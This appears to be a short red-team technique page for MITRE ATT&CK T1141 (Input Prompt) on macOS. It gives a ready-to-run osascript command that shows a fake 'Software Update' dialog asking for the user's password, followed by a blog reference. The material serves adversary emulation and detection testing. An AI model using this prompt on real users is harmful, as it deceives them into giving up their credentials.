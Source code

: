 # Input Prompt

## MITRE ATT&CK Technique: [T1141](https://attack.mitre.org/wiki/Technique/T1141)

## Prompt User for Password (Local Phishing)

    osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'

## Reference:
http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html
